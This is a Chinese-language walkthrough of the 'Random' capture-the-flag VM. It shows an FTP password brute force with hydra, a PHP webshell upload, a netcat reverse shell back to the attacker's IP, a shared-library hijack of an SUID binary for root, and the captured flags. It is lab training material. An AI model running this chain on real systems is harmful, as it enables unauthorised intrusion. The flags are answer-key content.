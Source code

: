 # Random

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-10-19

✔️ MD5 // 594d83108b972529c3d03abf5249febc

☠ Root // 34

💀 User // 38

📝Notes //
Hack and Fun. Tested on Virtualbox.

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.112
```

## nmap 信息搜集

```plaintext
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr--    2 1001     33           4096 Oct 19  2020 html
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 09:0e:11:1f:72:0e:6c:10:18:55:1a:73:a5:4b:e5:64 (RSA)
|   256 c0:9f:66:34:56:1d:16:4a:32:ad:25:0c:8b:a0:1b:5a (ECDSA)
|_  256 4c:95:57:f4:38:a3:ce:ae:f0:e2:a6:d9:71:42:07:c5 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
```

## ftp 匿名登陆

```shell
ftp> ls -lah
229 Entering Extended Passive Mode (|||56972|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        113          4096 Oct 19  2020 .
drwxr-xr-x    3 0        113          4096 Oct 19  2020 ..
drwxr-xr--    2 1001     33           4096 Oct 19  2020 html
```

存在一个 `html` 目录，但是无法进入

## web 服务

```html
<pre>
#########################WARNING##########################
eleanor, i disabled your ssh access.
Take care.
-alan
##########################################################
</pre>
```

由于 SSH 服务被禁用，尝试爆破 ftp

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $hydra -v -V -I -l eleanor -P /usr/share/wordlists/rockyou.txt 192.168.56.112 ftp
[21][ftp] host: 192.168.56.112   login: eleanor   password: ladybug
```

登陆上去之后，成功控制 ftp 服务，但是还是无法上传文件

```shell
ftp> ls -lah
229 Entering Extended Passive Mode (|||10520|)
150 Here comes the directory listing.
drwxr-xr--    2 1001     33           4096 Oct 19  2020 .
drwxr-xr-x    3 0        113          4096 Oct 19  2020 ..
-rw-r--r--    1 33       33            185 Oct 19  2020 index.html
226 Directory send OK.
ftp> put simple-backdoor.php
local: simple-backdoor.php remote: simple-backdoor.php
229 Entering Extended Passive Mode (|||59495|)
550 Permission denied.
```

更换为 sftp，成功上传文件

```shell
sftp> ls -lah
drwxr-xr-x    ? 0        113          4.0K Oct 20  2020 .
drwxr-xr-x    ? 0        113          4.0K Oct 20  2020 ..
drwxr-xr--    ? 1001     33           4.0K Oct 20  2020 html
sftp> cd html
sftp> put simple-backdoor.php
Uploading simple-backdoor.php to /html/simple-backdoor.php
simple-backdoor.php
```

调用 webshell

```plaintext title="http://192.168.56.112/simple-backdoor.php?cmd=whoami"
www-data
```

## User - www-data

```shell
# http://192.168.56.112/simple-backdoor.php?cmd=nc+-c+bash+192.168.56.102+9999
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs -lp 9999
[17:45:29] Welcome to pwncat 🐈!
[17:45:53] received connection from 192.168.56.112:56462
[17:45:54] 192.168.56.112:56462: registered new host w/ db
(local) pwncat$ back
(remote) www-data@random:/srv/ftp/html$ whoami
www-data
```

### 环境探测

```plaintext title="ls -lah /home/alan/"
total 56K
drwxr-xr-x 2 alan alan 4.0K Oct 19  2020 .
drwxr-xr-x 4 root root 4.0K Oct 19  2020 ..
-rw------- 1 alan alan   52 Oct 19  2020 .Xauthority
-rw-r--r-- 1 alan alan  220 Oct 19  2020 .bash_logout
-rw-r--r-- 1 alan alan 3.5K Oct 19  2020 .bashrc
-rw-r--r-- 1 alan alan  807 Oct 19  2020 .profile
-rw------- 1 alan alan  162 Oct 19  2020 note.txt
-rwsr-sr-x 1 root root  17K Oct 19  2020 random
-rw-r--r-- 1 root root   19 Oct 19  2020 root.h
-rw-r--r-- 1 root root 1.6K Oct 19  2020 rooter.o
```

发现一个 suid 程序，尝试执行

```shell
(remote) www-data@random:/home/alan$ ./random
Segmentation fault
```

下载下来分析

## `random` 程序逆向分析

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  time_t v3; // rdi
  int v5; // [rsp+1Ch] [rbp-4h]

  v5 = atoi(argv[1]);
  v3 = time(0LL);
  srand(v3);
  if (v5 == rand() % 9 + 1 )
    makemeroot(v3);
  else
    puts("Wrong number");
  return 0;
}
```

那简单，由于 `rand() % 9 + 1` 的限制，直接疯狂运行，总有能对的上的时候

```shell
(remote) www-data@random:/home/alan$ ./random 1
SUCCESS!! But I need to finish and implement this function
```

尝试分析这个程序的链接库

```shell
(remote) www-data@random:/home/alan$ ldd random
        linux-vdso.so.1 (0x00007ffd259e8000)
        librooter.so => /lib/librooter.so (0x00007f23db669000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f23db4a8000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f23db67a000)
```

经过探测，`/lib/librooter.so` 这个链接库可控，于是可以尝试覆盖

```c
#include <stdlib.h>

void makemeroot()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

:::warning

远程靶机环境中的 `ld` 有问题，会出现

```shell
(remote) www-data@random:/tmp$ gcc -shared shell.c -o /lib/librooter.so
shell.c: In function 'makemeroot':
shell.c:5:2: warning: implicit declaration of function 'setuid'; did you mean 'setenv'? [-Wimplicit-function-declaration]
  setuid(0);
  ^~~~~~
  setenv
shell.c:6:2: warning: implicit declaration of function 'setgid'; did you mean 'setenv'? [-Wimplicit-function-declaration]
  setgid(0);
  ^~~~~~
  setenv
collect2: fatal error: cannot find 'ld'
compilation terminated.
```

建议使用本地编译好的结果进行上传

:::

然后继续尝试运行 `random` 程序

```shell
(remote) www-data@random:/home/alan$ ./random 8
root@random:/home/alan# whoami
root
```

:::note

有个问题，这怎么就直接提权到 root 了，这不太科学。。。

:::

## User - root

### flag- user

```shell
root@random:/home/eleanor# cat user.txt
ihavethapowah
```

### flag - root

```shell
root@random:/root# cat root.txt
howiarrivedhere
```
